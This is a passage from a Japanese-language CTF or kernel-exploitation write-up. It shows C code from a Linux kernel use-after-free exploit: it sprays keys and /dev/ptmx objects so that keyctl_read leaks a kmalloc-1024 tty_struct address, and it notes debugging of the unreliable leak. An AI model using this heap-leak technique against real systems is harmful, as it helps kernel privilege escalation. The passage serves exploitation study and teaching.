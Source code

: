 ここで、`tty_alloc_file()`は`/dev/ptmx`の`struct file`の`private_data`メンバに対して`struct tty_file_private`を確保して入れます。これは`kmalloc-32`から確保されます。その後、`tty_init_dev()`で`struct tty_struct`を`kmalloc-1024`から確保します。そして、`tty_add_file()`で`struct tty_file_private`内に`struct tty_struct`のアドレスを格納します。つまり、`kmalloc-32`内の`tty_file_private`をleakすることで`kmalloc-1024`のアドレスをleakすることができます。

```leak_heap.c
  // Free all keys except UAFed key
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    if (keys[ix] != uafed_key) {
      if (keyctl_revoke(keys[ix]) != 0) errExit("keyctl_revoke");
      if (keyctl_unlink(keys[ix], KEY_SPEC_PROCESS_KEYRING) != 0) errExit("keyctl_unlink");
    }
  }

  // Place `tty_file_private` on UAFed `user_key_payload` in kmalloc-32
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    if (open("/dev/ptmx", O_RDWR) <= 2) errExit("open tty");
  }

  // Read `tty_file_private.tty` which points to `tty_struct` in kmalloc-1024
  memset(keybuf, 0, 0x5000);
  if(keyctl_read(uafed_key, keybuf, 0x5000) <= 0) errExit("keyctl_read");
  ulong km1024_leaked = 0;
  ulong *tmp = (ulong*)keybuf + 1;
  for (int ix = 0; ix != 0x4330/8 - 2 - 1; ++ix) {
    if ((tmp[ix] >> (64-4*4)) == 0xFFFF && tmp[ix+2] == tmp[ix+3] && tmp[ix+2] != 0 && (tmp[ix] & 0xFF) == 0x00) { // list_head's next and prev are same
      km1024_leaked = tmp[ix];
      printf("[!] \t+0: 0x%lx (tty)\n", tmp[ix]);
      printf("[!] \t+1: 0x%lx (*file)\n", tmp[ix + 1]);
      printf("[!] \t+2: 0x%lx (list_head.next)\n", tmp[ix + 2]);
      printf("[!] \t+3: 0x%lx (list_head.prev)\n", tmp[ix + 3]);
      break;
    }
  }
  if (km1024_leaked == 0) errExit("Failed to leak kmalloc-1024");
  printf("[!] leaked kmalloc-1024: 0x%lx\n", km1024_leaked);
```

![](https://hackmd.io/_uploads/rkVY_pheo.png)

良さそう！と思いきや、実際に表示された`tty`のアドレスを見てみると、先頭がマジックナンバー(`0x5401`)ではなかったため違うポインタでした。何度試してみても、`tty`と思わしきものは50回に1回程度しかleakできない...。うーん、何が悪いのか。UAFされた`user_key_payload`以外のkeyをfreeして代わりに`tty_file_private`を置いたあとの`user_key_payload`が以下の感じ:
![](https://hackmd.io/_uploads/rJMNzF6gj.png)

先頭32byteが`user_key_payload`で、上にはkbaseのleakに使った`seq_operations`が乗っかっています。leakできるのは`user_key_payload`よりも下の`0x4330`byte程度(これは、`seq_operations`をUAFで乗せた際に、`user_key_payload.datalen`が`single_next`のアドレスの下2byteである`4330`で上書きされるため)であるため見てみると、`seq_operations`の名残がいくつか見えますね。`0xa748dc1b1f063d98`は、おそらくフリーなスラブオブジェクト内のリストポインタが暗号化(`CONFIG_SLAB_FREELIST_HARDENED`)されているやつでしょう。このことから考えられることとしては、keyのスプレーが少なくてキャッシュ内がkeyで満たされる前に同じ領域に`seq_operations`が入ってきてしまったことが考えられます。よって、スプレーするkeyを増やしてみたところ以下の感じ:

![](https://hackmd.io/_uploads/HJpVrFTxs.png)
